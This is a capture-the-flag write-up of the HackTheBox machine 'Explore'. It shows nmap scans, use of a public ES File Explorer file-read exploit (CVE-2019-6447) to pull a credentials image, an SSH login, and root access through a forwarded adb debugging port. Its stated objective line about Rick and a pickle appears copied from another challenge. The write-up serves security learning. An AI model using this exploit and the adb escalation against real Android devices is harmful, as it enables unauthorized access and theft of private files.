 ```yaml
---
title: "HackTheBox: Explore"
date: 2025-03-12 00:00:00 +/-TTTT
categories: [Writeups, HackTheBox, easy]
tags: [htb, easy]     # TAG names should always be lowercase
---
```


>**Title**: Explore
>
>**Platform**: HackTheBox
>
>**Difficulty**: Easy
>
>**Objective**: Root the box and gain access to the three ingredients to turn Rick back into a human from a pickle.

<img src= "https://labs.hackthebox.com/storage/avatars/2c3df5ec98bea78159400b5b4f6474ab.png" width="250" height="250" alt="logo1.png"> <br>

[Challenge Link](https://www.hackthebox.com/machines/explore)

 > [!NOTE]
 This writeup does not divulge the flags. 

## Enumeration

We start off with our favorite tool….`nmap` to identify open ports and services.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ sudo nmap -sS 10.129.56.63 
[sudo] password for kali: 
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-09-14 16:43 EDT
Nmap scan report for 10.129.56.63
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE    SERVICE
2222/tcp open     EtherNetIP-1
5555/tcp filtered freeciv

Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
```

The scan reveals two open ports: `2222` and `5555`. Let’s perform a more detailed scan using `nmap` with service detection and default scripts.

```bash
──(kali㉿kali)-[~/HTB/Explore]
└─$ nmap -sT -sV -sC 10.129.56.63 -p-
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-09-14 16:50 EDT
Nmap scan report for 10.129.56.63
Host is up (0.035s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).'
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

The scan identifies an `SSH` service on port `2222`, `ES File Explorer` running on port `42135`, and `Bukkit JSONAPI` on port `59777`.

Simply searching for the `freeciv` service with the word exploit tacked on returns quite a few exploits, hmmm interesting…

## ES File Explorer Exploit

Going back to our `nmap` result, let’s search for ES File explorer exploit and we see the first hit is an arbitrary file read.

```
ES File Explorer 4.1.9.7.4 - Arbitrary File Read - https://www.exploit-db.com/exploits/50070
```


>!CAUTION: 💡 Always remember to read the exploit code before you use it! 


```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py getDeviceInfo 10.129.56.63

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```

We can use a lot of different functions to list files/pictures/videos etc. Going through that we list pictures and find an interesting JPEG.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py listPics 10.129.56.63 

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

Let’s use the `getFile` function to get the `creds` file and reveal the contents.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ python3 50070.py getFile 10.129.56.63 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

Et voila, we see a set of credentials we can use for the SSH server. Sticky notes, am I right?

![image2](https://cdn.hashnode.com/res/hashnode/image/upload/v1741792262251/caef0233-bc05-4b89-af50-74028437b391.png)

## SSH Access (User)

Directly ssh’ing into the box gave me an error saying “**No matching host key type found. Their offer: ssh-rsa**”. A quick search helped me fix that problem and we can connect.

```bash
┌──(kali㉿kali)-[~/HTB/Explore]
└─$ ssh -oHostKeyAlgorithms=+ssh-rsa -p 2222 kristi@10.129.56.63
The authenticity of host '[10.129.56.63]:2222 ([10.129.56.63]:2222)' can't be established.
RSA key fingerprint is SHA256:3mNL574rJyHCOGm1e7Upx4NHXMg/YnJJzq+jXhdQQxI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.129.56.63]:2222' (RSA) to the list of known hosts.
Password authentication
(kristi@10.129.56.63) Password: 
:/ $ whoami
u0_a76
```

Navigate to the `sdcard` directory to find `user.txt` or run the find command and grab that flag.

## Privilege Escalation

Let’s look at the open ports on the machine.

```jsx
:/ $ ss -ntlp
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN      0      50           *:59777                    *:*                  
LISTEN      0      8       [::ffff:127.0.0.1]:40389                    *:*                  
LISTEN      0      50           *:2222                     *:*                   users:(("ss",pid=16841,fd=74),("sh",pid=15893,fd=74),("droid.sshserver",pid=3766,fd=74))
LISTEN      0      4            *:5555                     *:*                  
LISTEN      0      10           *:42135                    *:*                  
LISTEN      0      50       [::ffff:10.129.56.63]:38909                    *:*
```

We identified at the start, the port `5555` is a debugging port (`adb`) and doesn’t allow external connections but now we have local access and we can use `ssh` port forwarding to access this port and service.

We reconnect using `ssh -L 5555:`[`localhost:5555`](http://localhost:5555)

From the attacker machine, let’s connect using `adb` and let’s drop into the `adb` shell

```bash
┌──(kali㉿kali)-[~]
└─$ adb -s localhost:5555 shell
x86_64:/ $ whoami                                                                      
shell
x86_64:/ $ su
:/ # whoami
root
```

```bash
:/ # find / -name root.txt 2>/dev/null
/data/root.txt
1|:/ # cat /data/root.txt
f04fc<ROOTFLAGHERE>
```

Done!
